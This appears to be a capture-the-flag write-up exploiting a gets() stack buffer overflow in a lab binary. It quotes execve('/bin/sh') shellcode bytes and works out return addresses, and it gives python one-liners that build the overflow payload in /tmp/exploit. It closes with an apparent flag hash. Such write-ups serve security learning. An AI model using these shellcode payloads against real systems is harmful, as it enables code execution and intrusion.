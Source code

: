 Ok this time arround we can see that gets is still used, so that may be our vector.

This time there is no function that's left uncalled tho, so we need to inject a shell call somehow
This can be done using shellcodes, and there is one right here

https://shell-storm.org/shellcode/files/shellcode-841.html

\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80 ; 21 len

So we need to get that to run, and to do this we still have to overrite the return address

This adds the shellcode at the beginning, then enough padding to fill the buffer


Afterwards we need to add the address of said buffer in order for it to execute

0xbffff6dc seems to be the buffer address, and we can confirm that by printing its content after the gets call

So now just append this to the exploit, but first let's try with basic payload

```python
import struct
struct.pack('<I', 0x0bffff6dc)
b'\xdc\xf6\xff\xbf'

```

python -c 'print ("A" * 80 + "\xdc\xf6\xff\xbf")' > /tmp/exploit

By doing this we find that our exploit kinda worked and we enter a condition that tests agains this exploit.

So we need to print 80 - 27 As

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA ABCD

python -c 'print ("\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05" + "A" * 53 + "\xdc\xf6\xff\xbf")' > /tmp/exploit

But how do we get it to exec now ? 

Well there is a malloc called later on, and from testing run to run it always gives the same address, 0x804a008, so put this address as a target


```python
import struct
struct.pack('<I', 0x804a008)
b'\x08\xa0\x04\x08'

```

python -c 'print ("\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" + "A" * 59 + "\x08\xa0\x04\x08")' > /tmp/exploit



492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02